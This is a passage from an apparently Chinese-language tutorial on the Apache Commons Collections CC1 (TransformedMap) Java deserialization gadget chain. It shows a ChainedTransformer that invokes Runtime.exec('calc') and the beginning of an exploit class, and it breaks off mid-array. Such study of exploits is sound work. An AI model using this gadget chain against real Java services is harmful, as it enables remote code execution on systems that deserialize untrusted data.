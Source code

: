 ```plain
Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object.class},new Object[]{}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```

这样我们最后的value就固定为Runtime.class了

### EXP(CC1Transformedmap)：

```plain
package exp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class CC1Test {
    public static void main(String[] args) throws Exception{


//        Runtime r = Runtime.getRuntime();//单例模式，通过对应方法创建对象//问题一：r不能序列化，没有继承序列化接口
//        Class c = Runtime.class;
//        Method execMethod = c.getMethod("exec",String.class);
//        execMethod.invoke(r,"calc");


//        Class c = Runtime.class;
//        Method getRuntimeMethod = c.getMethod("getRuntime",null);
//        Runtime r = (Runtime) getRuntimeMethod.invoke(null,null);
//        Method execMethod = c.getMethod("exec", String.class);
//        execMethod.invoke(r,"calc");



//        Method getRuntimeMethod = (Method) new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(Runtime.class);
//        Runtime r = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object.class},new Object[]{}).transform(getRuntimeMethod);
//        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});

        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
```
